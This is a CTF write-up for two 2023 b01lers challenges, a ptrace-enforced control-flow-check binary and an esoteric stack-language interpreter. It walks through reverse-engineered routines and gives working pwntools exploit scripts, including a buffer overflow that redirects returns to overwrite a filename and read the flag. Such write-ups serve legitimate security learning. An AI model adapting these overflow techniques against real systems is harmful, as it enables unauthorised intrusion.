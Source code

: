 ```yaml
---
title: (CTF) 2023 b01lers CTF writeup
categories: [CTF]
tags : [writeup]
date : 2023-03-20 14:53:37 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: March 20, 2023
rank: 19
team: ST4RT

# ****cfifufuuufuuuuu**** ( 398 pt, 13 solve )

there are two files loader.pyc, a binary

```python
while 1:
    # res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    pid, status = os.waitpid(-1, 0)
    ssy = pnx(status)
    print(ssy)
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    print(hex(regs.rip))
    if ssy[1] == 'WIFEXITED':
        break
    if ssy[2] == 'SIGSEGV':
        break
    if ssy[2] == 'SIGTRAP':

> ['0x57f', 'WIFSTOPPED', "'SIGTRAP'", '0']

```

if I execute python code from uncompyle6, it doesn’t work due to the quote.
Enclose comparing string with double quotes

```
int 3
adc [rax+XX]
```

In binary, there are some opcodes that cause SEGFAULT next to int 3.
int 3 → `SIGTRAP`

```python
if ssy[2] == 'SIGTRAP':
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    one_byte = mem_read(pid, regs.rip, 1)[0]
    if one_byte == 72:
        regs.rax = regs.rdi
        regs.rdi = regs.rsi
        ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    else:
        if one_byte == 17 or one_byte == 33 or one_byte == 49:
            offd = {17:0,  33:40,  49:72}
            vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
            vv = struct.unpack('<Q', vv)[0]
            saved_addr.add(vv)
            regs.rip += 1
            ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
        else:
            if one_byte == 18 or one_byte == 34 or one_byte == 50:
                offd = {18:0,  34:40,  50:72}
                vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
                vv = struct.unpack('<Q', vv)[0]
                if vv not in saved_addr:
                    print('\\n\\n!!!Stack Violation Detected!!!\\n\\n')
                    regs.rip = 0
                    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
                    break
                saved_addr.remove(vv)
                regs.rip += 1
                ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    res = ptrace(PTRACE_CONT, pid, 0, 0)

```

In the loader, it handles `SIGTRAP`.
it branches according to the 1byte next to `int 3` opcode

```
0x48 -> rax = rdi, rdi = rsi
0x11,0x21,0x31 -> saved_addr.add([rsp+XX]), rip+=1
0x12,0x22,0x32 -> saved_addr.remove([rsp+XX]), if not exist, exit. rip+=1,
```

control flow check

## binary routine

```nasm
read(0,0x601004,0x10)
open("/dev/urandom") -> /dev/urandom string -> 0x601084
[0x601000]+=1
read(fd,0x601000+[0x601000]<<4+4],0x10) -> 0x601014
write(1,random values,0x10)
write xored data with random values
: 0x400486
read(0,[rsp+0x20],0x10)
read(0,[rsp+0x10],...) -> input until 0xA
write xored data [rsp+0x20], [rsp+0x10]
```

in function `0x400486`, BOF occurs. there is int 3 + 0x32 at the end of the function.
loader check if `[rsp+0x48]` in saved_addr.

There are two addresses at this time. original return `0x400546` and `0x4005e2`.

In `0x4005e2`, it executes that routing again if eax ≠ 0.
the return value of write always 1.

repeating that routine, you can raise the address until `0x601084` ( /dev/urandom ) by increasing the input index (`0x601000`)

modifying this filename to flag.txt, it reads flag as random values and prints.

```python
from pwn import *

# r = process(["/usr/bin/python3","/root/loader.py"])
r = remote("ctf.b01lers.com", 5215)
for i in range(9):
    print(i)
    r.sendafter('?:\n',b'flag.txt'.ljust(16,b'\x00'))
    r.sendafter(':\n',b'\x00'*16)
    r.sendline(b'\x00'*0x38+p64(0x4005e2))
r.interactive()
```

by repeating 8 times, the string address 0x601084 (/dev/urandom) can be overwritten,
in the 9th routine, it prints flag as random values 

# baby noah ( 334 pt, 25 solve )

## binary routine

1. input map ( max : 8 * 24 )
2. execute opcode

```python
opcode = map[row * m_col + col]
col + flag1 (default 0)
row += flag2 (default 0)
miles += op+1

# / dup / stack[idx] = stack[idx-1], idx ++
! / test / stack[idx-1] = stack[idx-1] == 0
* / mul / stack[idx-2] *= stack[idx-1], idx-=1
+ / add / stack[idx-2] += stack[idx-1], idx-=1
- / sub / stack[idx-2] -= stack[idx-1], idx-=1, 
/ / div / stack[idx-2] /= stack[idx-1], idx-=1
% / mod / stack[idx-2] %= stack[idx-1], idx-=1
& / and / ...
, / swap / stack[idx-2] = stack[idx-1]; stack[idx-1] = stack[idx-2]
~ / pop / idx-=1
. / putc / putc(stack[idx-1])
: / printf / printf("%d",stack[idx-1])
< / left / flag1 = -1
> / right / flag1 = 1
@ / return 1
^ / up / flag2 = -1
v / down / flag2 = 1
_ / left_right / flag1 = stack[idx-1]==0 ? 1 : -1;
| / up_down / flag2 = stack[idx-1] == 0 ? 1 : -1;
g / load / stack[idx-2] = map[m_col * stack[idx-1] + stack[idx-2]]; idx-=1
p / store / map[m_col * stack[idx-2] + stack[idx-3]] = stack[idx-1]; idx-=3
default / stack[idx] = 0; idx++
```

in every execute, add opcode+1 to `miles.`
using that opcodes, make `miles` 0x31337 to print flag.
input size is 8 * 24, so i need to construct a loop.

first, push counter to stack

> stack : [ 0x00, X ], idx = 2
> 

1. `right` to set flag1 = 1
2. `default` (counter → map[0][1])
3. `default` (dummy to idx++)
4. `default` (dummy, in load row = 0)
5. `test` to set stack[idx-1] = 1
6. `load` X

> payload : >XX!Xg
> 

second, using two rows, construct a loop

1. `right` to start loop
2. `default` to idx++
3. `test` to set stack[2] = 1
4. `sub` stack[1]
5. `default & pop` ( dummy op to increase miles )
6. `down`
7. `left_right` to check counter (stack[1]) == 0
if counter==0, goto right to exit
else, goto left to execute remain loop count

> \>X!-X~v
^<<<<<_@
> 

Adjust the value X  to make the miles to 0x31337.

```python
from pwn import *

#r=process(["./babynoah","20","flag.txt"])
r=remote("babynoah.bctf23-codelab.kctf.cloud", 1337)

payload = b">\xe4\xe4!\xffg>\xfe!-\x00~v\n"
payload +=b"\xff\xff\xff\xff\xff\xff^<<<<<<_@"
r.sendline(payload)
pause()
r.sendline()
r.interactive()
```

by default, X to 0xff and adjusted the rest appropriately